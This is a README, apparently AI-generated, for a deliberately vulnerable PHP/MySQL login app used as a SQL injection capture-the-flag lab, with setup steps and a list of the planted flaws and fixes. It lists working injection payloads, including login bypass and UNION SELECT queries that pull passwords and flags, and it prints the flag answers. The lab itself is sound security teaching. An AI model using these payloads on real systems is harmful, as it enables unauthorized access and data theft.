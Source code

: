 Note: I had AI generate a readme 

# 🏴‍☠️ SQL Injection CTF Challenge

A deliberately vulnerable login system designed for learning SQL injection techniques in a safe environment.

## 📋 Prerequisites

- PHP 7.4+ with PDO MySQL extension
- MySQL/MariaDB server
- Web server (Apache/Nginx) or PHP built-in server

## 🚀 Quick Setup

### Option 1: Docker (Recommended)
```bash
# On Linux/Mac
./setup.sh

# On Windows
setup.bat
```

### Option 2: Manual Setup

#### 1. Database Setup
```bash
# Connect to MySQL as root
mysql -u root -p

# Run the setup script
source setup.sql
```

#### 2. Configure Database Connection
Edit `db.php` and update the database credentials:
```php
$host = 'localhost';
$dbname = 'ctf_sqli';
$username = 'root';
$password = 'your_password';
```

#### 3. Start the Web Server
```bash
# Using PHP built-in server
php -S localhost:8000

# Or configure your web server to serve the ctf-sqli directory
```

#### 4. Access the Application
Open your browser and navigate to: `http://localhost:8000`

## 🎯 CTF Challenge

### Objective
Bypass the login authentication using SQL injection to retrieve the hidden CTF flags.

### Available Users (Legitimate Credentials)
- Username: `admin`, Password: `admin123`
- Username: `user1`, Password: `password123`
- Username: `test`, Password: `test123`
- Username: `guest`, Password: `guest123`

## 🔥 SQL Injection Examples

### Basic Authentication Bypass
```
Username: admin' --
Password: anything
```

### Union-Based Injection
```
Username: ' UNION SELECT 1,2,3,4 --
Password: anything
```

### Boolean-Based Injection
```
Username: admin' AND 1=1 --
Password: anything
```

### Error-Based Injection
```
Username: ' OR 1=1 --
Password: anything
```

### Advanced Techniques

#### Get All Users
```
Username: ' OR 1=1 ORDER BY id --
Password: anything
```

#### Get Specific User Data
```
Username: ' UNION SELECT id,username,password,flag FROM users WHERE username='admin' --
Password: anything
```

#### Database Information
```
Username: ' UNION SELECT 1,2,3,@@version --
Password: anything
```

## 🏆 CTF Flags

The application contains multiple flags to discover:

1. **FLAG{SQL_INJECTION_MASTER_2024}** - Admin user flag
2. **FLAG{USER_LEVEL_ACCESS_GRANTED}** - User1 flag
3. **FLAG{TEST_ACCOUNT_COMPROMISED}** - Test user flag
4. **FLAG{GUEST_PRIVILEGES_ESCALATED}** - Guest user flag
5. **FLAG{SUPER_ADMIN_ACCESS_ACHIEVED}** - Hidden superadmin flag

## 🛡️ Security Notes

⚠️ **IMPORTANT**: This application is intentionally vulnerable for educational purposes only. Never deploy this code in a production environment!

### Vulnerabilities Included:
- No input sanitization
- Direct string concatenation in SQL queries
- No prepared statements
- Error messages exposed
- No password hashing

### How to Fix (For Learning):
1. Use prepared statements
2. Implement input validation
3. Hash passwords
4. Hide error messages
5. Use parameterized queries

## 📁 File Structure

```
ctf-sqli/
├── index.html          # Login form
├── style.css           # Styling
├── login.php           # Vulnerable login handler
├── scoreboard.php      # Scoreboard system
├── db.php              # Database connection
├── setup.sql           # Database schema and data
├── Dockerfile          # Docker configuration
├── docker-compose.yml  # Docker Compose setup
├── setup.sh            # Linux/Mac setup script
├── setup.bat           # Windows setup script
├── .gitignore          # Git ignore rules
└── README.md           # This file
```

## 🎓 Learning Objectives

1. Understand SQL injection vulnerabilities
2. Learn common injection techniques
3. Practice manual SQL injection
4. Understand the importance of input validation
5. Learn secure coding practices

## 🔧 Troubleshooting

### Common Issues:

1. **Database Connection Failed**
   - Check MySQL service is running
   - Verify credentials in `db.php`
   - Ensure database exists

2. **Permission Denied**
   - Check file permissions
   - Ensure web server can read files

3. **PDO Extension Missing**
   - Install PHP PDO MySQL extension
   - Restart web server

## 📚 Additional Resources

- [OWASP SQL Injection Guide](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [PHP Security Best Practices](https://www.php.net/manual/en/security.php)

## 🤝 Contributing

Feel free to submit issues or enhancement requests for additional vulnerability types or difficulty levels.

---

**Happy Hacking! 🎯** 